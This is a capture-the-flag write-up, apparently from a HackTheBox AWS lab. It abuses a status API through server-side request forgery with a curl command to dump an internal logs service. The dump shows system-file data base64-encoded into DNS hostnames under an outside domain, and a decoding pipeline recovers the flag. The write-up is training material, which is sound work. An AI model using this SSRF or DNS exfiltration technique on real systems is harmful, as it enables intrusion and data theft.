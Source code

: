 ```           
      "site": "services.amzcorp.local",
      "status": "OK"
    },
    {
      "site": "cloud.amzcorp.local",
      "status": "OK"
    },
    {
      "site": "inventory.amzcorp.local",
      "status": "OK"
    },
    {
      "site": "workflow.amzcorp.local",
      "status": "OK"
    },
    {
      "site": "company-support.amzcorp.local",
      "status": "OK"
    }
  ]
}
```
There are also other sub-domains, but we do not need them right now.

We can exploit the status route to point to `logs.amzcorp.local` and access this subdomain via `SSRF`.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ curl -s http://jobs.amzcorp.local/api/v4/status -d '{"url": "http://logs.amzcorp.local"}' -b api_token=98d7f87065c5242ef5d3f6973720293ec58e434281e8195bef26354a6f0e931a1fd50a72ebfc8ead820cb38daca218d771d381259fd5d1a050b6620d1066022a -H 'Content-Type: application/json' | sed 's/\\n/\n/g' | sed 's/\\//g' | sed 's/""//g' > dump.txt
    
```

The content is `json`, mostly recurring patterns
```
cat dump.txt | jq | head
{
  "result": [
    {
      "hostname": "Y2Ryb206eDoyNDoK.c00.xyz",
      "ip_address": "129.141.123.251",
      "method": "GET",
      "requester_ip": "172.22.11.10",
      "url": "/"
    },

❯ echo Y2Ryb206eDoyNDoK | base64 -d
cdrom:x:24:
```

Using regular expressions, we can grab just the `base64` data from the `hostname` field and search for the AWS string when decoded, thus finding a flag
```
cat dump.txt | jq -r '.result[].hostname' | grep -oP '[^/]+(?=\.c00\.xyz)' | base64 -d | strings | grep AWS  
AWS{F1nD1nG_4_N33dl3_1n_h4y5t4ck}
```
